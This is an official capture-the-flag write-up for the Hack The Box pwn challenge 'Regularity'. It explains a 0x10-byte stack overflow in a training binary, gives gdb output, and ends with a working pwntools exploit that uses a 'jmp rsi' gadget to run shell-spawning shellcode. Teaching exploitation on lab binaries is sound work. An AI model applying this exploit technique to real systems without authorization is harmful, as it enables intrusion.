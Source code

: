 ![](../../../../../assets/logo_htb.png)



<img src="../../../../../assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />    	<font size="10">Regularity</font>

​		6<sup>th</sup> May 2024

​		Prepared By: ir0nstone

​		Challenge Author(s): ir0nstone

​		Difficulty: <font color=green>Easy</font>

​		Classification: Official

 



# Synopsis

Regularity is an Easy pwn challenge that involves performing a ret2reg to run custom shellcode and pop a shell.

# Description

Nothing much changes from day to day. Famine, conflict, hatred - it's all part and parcel of the lives we live now. We've grown used to the animosity that we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...

## Skills Required

- Basic stack exploitation knowledge

## Skills Learned

- ret2reg
- shellcoding

# Enumeration
We are given the executable file `regularity` and a fake `flag.txt` for testing. Running `pwn checksec regularity`, we can see that there are no protections:

![checksec](assets/checksec.svg)

In fact, if we run `ldd checksec`, we can see that it is **statically linked**:

![ldd](assets/ldd.svg)

There's no NX, so we can run our own shellcode. Let's try running it:

![Initial Run](assets/initial_run.svg)

It takes in our input and exits. Great.

Let's move on and disassemble the binary.

## Disassembly

Opening it up in binary ninja (or any disassembler of choice), we can go straight to `_start`:

![_start](assets/start_disasm.png)

We see that the binary calls `write`, `read` then `write` again. The parameters are clearly labelled. Once that's complete, it pushes the address of `exit` to RSI and then runs `jmp rsi` to exit gracefully using the `exit` syscall. Let's check out `write` and `read`:

![write](assets/write_disasm.png)

Nothing of note here - just calls the `write` syscall. Now for `read`:

![read](assets/read_disasm.png)

Here is a vulnerability! It subtracts `0x100` from RSP to make space for a buffer. It then calls the `read` syscall to read to that buffer. The `count` passed to `read`, however, is `0x110`! This results in `0x10` bytes of overflow; that is the only vulnerability. But what can we do with this?

# Solution
The stack is executable, so shellcode is an excellent idea. However, ASLR is enabled, so if we run the program multiple times our shellcode will be located at different addresses. Not ideal! We have to find a better way.

If we input a long string of `A` characters break at the `ret` in `read` (address `0x40106e`), we can observe where the string is loaded:

```gdb
$ gdb -q regularity
pwndbg> b *0x40106e
pwndbg> r
Hello, Survivor. Anything new these days?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x000000000040106e in read ()

pwndbg> x/10gx $rsp-0x100
0x7fffffffdde8:	0x4141414141414141	0x4141414141414141
0x7fffffffddf8:	0x4141414141414141	0x4141414141414141
0x7fffffffde08:	0x4141414141414141	0x4141414141414141
0x7fffffffde18:	0x4141414141414141	0x0000000a41414141
0x7fffffffde28:	0x0000000000000000	0x0000000000000000
```

The buffer is located at `0x7fffffffdde8`. Could it possibly be that a register points there?

```gdb
pwndbg> info reg
rax            0x3d                61
rbx            0x0                 0
rcx            0x401067            4198503
rdx            0x110               272
rsi            0x7fffffffdde8      140737488346600
rdi            0x0                 0
rbp            0x0                 0x0
rsp            0x7fffffffdee8      0x7fffffffdee8
r8             0x0                 0
r9             0x0                 0
r10            0x0                 0
r11            0x206               518
r12            0x0                 0
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x40106e            0x40106e <read+35>
eflags         0x206               [ PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```

It does! RSI points there!

But what can we do with this? Well, as we previously observed, there is a `jmp rsi` gadget present in the binary which is used to jump to `exit`. If we overwrite the return pointer with the address of `jmp rsi`, it will jump to our shellcode!

## Exploit
The solution looks like this:

```python
from pwn import *

elf = context.binary = ELF('../challenge/regularity', checksec=False)
p = process()

JMP_RSI = next(elf.search(asm('jmp rsi')))

payload = flat({
    0:      asm(shellcraft.sh()),
    256:    JMP_RSI
})

p.sendlineafter(b'days?\n', payload)
p.interactive()
```

Boom - we get a shell!